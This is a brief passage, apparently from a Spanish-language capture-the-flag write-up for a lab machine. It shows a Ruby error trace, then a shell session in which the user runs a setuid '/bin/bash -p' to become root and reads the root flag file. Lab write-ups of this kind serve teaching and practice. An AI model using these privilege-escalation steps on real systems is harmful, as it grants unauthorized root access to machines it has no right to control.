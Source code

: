 ```bash
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
henry@precious:/dev/shm$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
89249a19a97076bb6f061cbd32243678
bash-5.1# 
```

Y listo, obtenemos una shell como **root**.

****
